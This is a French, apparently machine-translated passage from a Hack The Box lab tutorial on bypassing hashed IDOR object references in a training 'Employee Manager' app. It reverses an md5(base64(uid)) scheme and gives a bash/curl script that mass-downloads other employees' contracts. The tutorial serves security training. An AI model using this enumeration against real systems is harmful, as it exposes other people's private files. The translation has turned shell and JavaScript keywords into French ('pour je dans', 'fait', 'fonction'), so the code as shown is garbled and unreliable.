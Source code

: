 Contournement des références codées
============================

* * * * *

Dans la section précédente, nous avons vu un exemple d'IDOR qui utilise les uid des employés en texte clair, ce qui facilite l'énumération. Dans certains cas, les applications Web créent des hachages ou encodent leurs références d'objet, ce qui rend l'énumération plus difficile, mais cela reste possible.

Revenons à l'application Web `Employee Manager` pour tester la fonctionnalité `Contrats` :

![](https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_contracts.jpg)

Si nous cliquons sur le fichier `Employment_contract.pdf` , le téléchargement du fichier commence. La requête interceptée dans Burp ressemble à ceci :

![download_contract](https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_download_contract.jpg)

Nous voyons qu'il envoie une requête `POST` à `download.php` avec les données suivantes :

Code : php

```
contrat=cdd96d3cc73d1dbdaffa03cc6cd7339b

```

L'utilisation d'un script `download.php` pour télécharger des fichiers est une pratique courante pour éviter de créer des liens directs vers des fichiers, car cela peut être exploitable par plusieurs attaques Web. Dans ce cas, l'application Web n'envoie pas la référence directe en texte clair, mais semble la hacher au format "md5". Les hachages sont des fonctions à sens unique, nous ne pouvons donc pas les décoder pour voir leurs valeurs d'origine.

Nous pouvons tenter de hacher différentes valeurs, telles que `uid`, `username`, `filename` et bien d'autres, et voir si l'un de leurs hachages `md5` correspond à la valeur ci-dessus. Si nous trouvons une correspondance, nous pouvons la répliquer pour d'autres utilisateurs et collecter leurs fichiers. Par exemple, essayons de comparer le hachage `md5` de notre `uid`, et voyons s'il correspond au hachage ci-dessus :

```
dsgsec@htb[/htb]$ echo -n 1 | md5sum

c4ca4238a0b923820dcc509a6f75849b -

```

Malheureusement, les hachages ne correspondent pas. Nous pouvons essayer cela avec divers autres champs, mais aucun d'entre eux ne correspond à notre hachage. Dans les cas avancés, nous pouvons également utiliser `Burp Comparer` et fuzzer différentes valeurs, puis comparer chacune à notre hachage pour voir si nous trouvons des correspondances. Dans ce cas, le hachage `md5` pourrait correspondre à une valeur unique ou à une combinaison de valeurs, ce qui serait très difficile à prévoir, faisant de cette référence directe une `référence d'objet directe sécurisée`. Cependant, il y a un défaut fatal dans cette application Web.

* * * * *

Divulgation des fonctions
-------------------

Comme la plupart des applications Web modernes sont développées à l'aide de frameworks JavaScript, tels que `Angular`, `React` ou `Vue.js`, de nombreux développeurs Web peuvent commettre l'erreur d'exécuter des fonctions sensibles sur le front-end, ce qui les exposerait à des attaquants. . Par exemple, si le hachage ci-dessus était calculé sur le front-end, nous pouvons étudier la fonction, puis reproduire ce qu'elle fait pour calculer le même hachage. Heureusement pour nous, c'est précisément le cas dans cette application Web.

Si nous examinons le lien dans le code source, nous voyons qu'il appelle une fonction JavaScript avec `javascript:downloadContract('1')`. En examinant la fonction `downloadContract()` dans le code source, nous voyons ce qui suit :

Code : javascript

```
fonction downloadContract(uid) {
     $.redirect("/download.php", {
         contrat : CryptoJS.MD5(btoa(uid)).toString(),
     }, "POSTER", "_self");
}

```

Cette fonction semble envoyer une requête `POST` avec le paramètre `contract` , ce que nous avons vu ci-dessus. La valeur qu'il envoie est un hachage `md5` utilisant la bibliothèque `CryptoJS` , qui correspond également à la requête que nous avons vue précédemment. Donc, la seule chose qui reste à voir est quelle valeur est hachée.

Dans ce cas, la valeur hachée est `btoa(uid)`, qui est la chaîne codée en `base64` de la variable `uid` , qui est un argument d'entrée pour la fonction. En revenant au lien précédent où la fonction a été appelée, nous la voyons appeler `downloadContract('1')`. Ainsi, la valeur finale utilisée dans la requête `POST` est la chaîne encodée `base64` de `1`, qui a ensuite été hachée `md5` .

Nous pouvons tester cela en `base64` encodant notre `uid=1`, puis en le hachant avec `md5`, comme suit :

```
dsgsec@htb[/htb]$ echo -n 1 | base64 -w 0 | md5sum

cdd96d3cc73d1dbdaffa03cc6cd7339b -

```

Astuce : Nous utilisons l'indicateur `-n` avec `echo` et l'indicateur `-w 0` avec `base64`, pour éviter d'ajouter des retours à la ligne, afin de pouvoir calculer le hachage `md5` de la même valeur. , sans hacher les sauts de ligne, car cela modifierait le hachage `md5` final.

Comme nous pouvons le voir, ce hachage correspond au hachage de notre requête, ce qui signifie que nous avons réussi à inverser la technique de hachage utilisée sur les références d'objet, en les transformant en IDOR. Avec cela, nous pouvons commencer à énumérer les contrats des autres employés en utilisant la même méthode de hachage que nous avons utilisée ci-dessus. `Avant de continuer, essayez d'écrire un script similaire à celui que nous avons utilisé dans la section précédente pour énumérer tous les contrats`.

* * * * *

Dénombrement de masse
----------------

Encore une fois, écrivons un simple script bash pour récupérer tous les contrats des employés. Le plus souvent, il s'agit de la méthode la plus simple et la plus efficace pour énumérer les données et les fichiers via les vulnérabilités IDOR. Dans les cas plus avancés, nous pouvons utiliser des outils tels que `Burp Intrudeuh` ou `ZAP Fuzzer`, mais un simple script bash devrait être le meilleur moyen pour notre exercice.

Nous pouvons commencer par calculer le hachage pour chacun des dix premiers employés à l'aide de la même commande précédente tout en utilisant `tr -d` pour supprimer les `- `caractères de fin, comme suit :

```
dsgsec@htb[/htb]$ pour je dans {1..10} ; faire echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; fait

cdd96d3cc73d1dbdaffa03cc6cd7339b
0b7e7dee87b1c3b98e72131173dfbbbf
0b24df25fe628797b3a50ae0724d2730
f7947d50da7a043693a592b4db43b0a1
8b9af1f7f76daf0f02bd9c48c4a2e3d0
006d1236aee3f92b8322299796ba1989
b523ff8d1ced96cef9c86492e790c2fb
d477819d240e7d3dd9499ed8d23e7158
3e57e65a34ffcb2e93cb545d024f5bde
5d4aace023dc088767b4e08c79415dcd

```

Ensuite, nous pouvons faire une requête `POST` sur `download.php` avec chacun des hachages ci-dessus comme valeur `contract` , ce qui devrait nous donner notre script final :

Code : bash

```
#!/bin/bash

pour je dans {1..10} ; faire
     pour le hachage dans $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); faire
         curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
     fait
fait

```

Avec cela, nous pouvons exécuter le script, et il devrait télécharger tous les contrats des employés 1 à 10 :

```
dsgsec@htb[/htb]$ bash ./exploit.sh
dsgsec@htb[/htb]$ ls -1

contrat_006d1236aee3f92b8322299796ba1989.pdf
contrat_0b24df25fe628797b3a50ae0724d2730.pdf
contrat_0b7e7dee87b1c3b98e72131173dfbbbf.pdf
contrat_3e57e65a34ffcb2e93cb545d024f5bde.pdf
contrat_5d4aace023dc088767b4e08c79415dcd.pdf
contrat_8b9af1f7f76daf0f02bd9c48c4a2e3d0.pdf
contrat_b523ff8d1ced96cef9c86492e790c2fb.pdf
contrat_cdd96d3cc73d1dbdaffa03cc6cd7339b.pdf
contrat_d477819d240e7d3dd9499ed8d23e7158.pdf
contrat_f7947d50da7a043693a592b4db43b0a1.pdf

```

Comme nous pouvons le voir, parce que nous avons pu inverser la technique de hachage utilisée sur les références d'objets, nous pouvons maintenant exploiter avec succès la vulnérabilité IDOR pour récupérer tous les contrats des autres utilisateurs.
